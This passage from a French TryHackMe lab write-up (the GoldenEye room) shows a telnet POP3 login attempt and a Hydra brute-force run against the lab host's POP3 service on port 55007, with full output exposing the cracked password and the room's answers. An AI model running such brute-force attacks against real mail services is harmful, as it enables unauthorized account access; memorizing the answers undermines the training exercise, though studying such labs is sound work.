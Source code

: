 ```bash
tim@kali:~/Bureau/tryhackme/write-up$ telnet goldeneye.thm 55007
Trying 10.10.243.62...
Connected to goldeneye.thm.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.

-ERR Unknown command.
quit
+OK Logging out
Connection closed by foreign host
```

Sur le service pop on essai de se connecter avec les mêmes identifiants ca ne fonctionne pas.    

**If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?** 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/wordlists/master/fasttrack.txt -nv
2021-08-18 16:25:01 URL:https://raw.githubusercontent.com/timruff/wordlists/master/fasttrack.txt [2006/2006] -> "fasttrack.txt" [1]

tim@kali:~/Bureau/tryhackme/write-up$ hydra -l boris -P ./fasttrack.txt pop3://goldeneye.thm:55007 -t 32
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-18 16:25:35
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 32 tasks per 1 server, overall 32 tasks, 222 login tries (l:1/p:222), ~7 tries per task
[DATA] attacking pop3://goldeneye.thm:55007/
[STATUS] 160.00 tries/min, 160 tries in 00:01h, 62 to do in 00:01h, 32 active
[55007][pop3] host: goldeneye.thm   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-18 16:26:41

```

Avec le programme hydra on brute force le mot de passe.   
On trouve le mot de passe qui est :  secret1!    

Réponse : secret1!  

** Inspect port 55007, what services is configured to use this port? **

On se connect sur se port avec telnet.  
